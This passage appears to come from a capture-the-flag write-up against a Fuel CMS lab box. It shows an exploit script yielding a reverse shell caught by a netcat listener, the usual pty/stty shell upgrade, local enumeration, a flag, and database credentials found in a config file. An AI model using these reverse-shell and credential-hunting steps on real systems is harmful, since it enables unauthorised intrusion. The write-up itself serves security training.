 `python3 47138.py`

```bash
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.228.13] 55112
bash: cannot set terminal process group (964): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$
```

And fix my shell:

```bash
www-data@ubuntu:/var/www/html$ which python3
which python3
/usr/bin/python3
www-data@ubuntu:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@ubuntu:/var/www/html$ export TERM=xterm-256color
www-data@ubuntu:/var/www/html$
```

<br>

## System Enumeration

I check `sudo -l` and it requires a password.

Looking at /etc/passwd shows that the only user on the system with a shell is root.

Looking in the /home directory shows that the www-data user has a folder there and inside is the first flag:

`wc -c /home/www-data/flag.txt`

```bash
34 /home/www-data/flag.txt
```

Looking for out of place SUID files doesn't give us anything good, nor do files with out of the ordinary capabilities.

I look around the /var/www/html directory and find a .php file with SQL credentials in it. Note: this file was also mentioned on the main CMS webpage under step 2 when we first visited:

```
/var/www/html/fuel/application/config/database.php

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '<REDACTED>',
```

